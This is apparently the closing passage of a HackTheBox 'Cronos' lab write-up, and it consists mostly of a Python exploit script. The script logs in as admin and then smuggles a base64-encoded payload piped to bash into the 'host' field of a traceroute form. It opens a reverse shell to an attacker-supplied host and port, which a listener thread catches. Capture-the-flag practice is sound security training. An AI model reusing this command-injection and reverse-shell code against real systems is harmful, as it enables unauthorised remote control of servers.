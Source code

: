 ```python
    print("[+] Let's get the reverse shell [+]")
    url = "http://admin.cronos.htb:80/welcome.php"
    headers = {"Content-Type": "application/x-www-form-urlencoded"}
    data = {"command": "traceroute", "host": f";echo {payload_encoded} | base64 -d | bash"}
    
    ## If set proxy, add option "proxies=proxies"
    requests.post(url, headers=headers, data=data)

## main
def main():
    ## Parse Arguments
    parser = argparse.ArgumentParser(description='GetShell - Cronos / HTB - 0xEtern4lW0lf')
    parser.add_argument('-t', '--target', help='Target ip address or hostname', required=True)
    parser.add_argument('-l', '--lhost', help='Local IP address or hostname', required=True)
    parser.add_argument('-p', '--lport', help='Local Port to receive the shell', required=True)

    args = parser.parse_args()

    rhost = args.target
    lhost = args.lhost
    lport = args.lport

    
    ## Set up the handler
    thr = Thread(target=handler,args=(int(lport),rhost))
    thr.start()
    

    ## Create the payload
    createPayload(lhost,lport)

    ## Print some information
    print("\n[+] Setting information")
    print("[+] target: ", rhost)
    print("[+] lhost: ", lhost)
    print("[+] lport: ", lport)
    print("[+] payload: ", payload)
    

    ## Login as admin
    loginAdmin(rhost)
    

    ## Get the Shell
    getShell(payload_encoded)

#### ======= EXECUTION =======

if __name__ == '__main__':
    banner()
    main()
```

![Untitled](https://0xetern4lw0lf.github.io/assets/img/HTB/HTB-Cronos/Untitled%2013.png)

 More scripts in [https://github.com/0xEtern4lW0lf](https://github.com/0xEtern4lW0lf).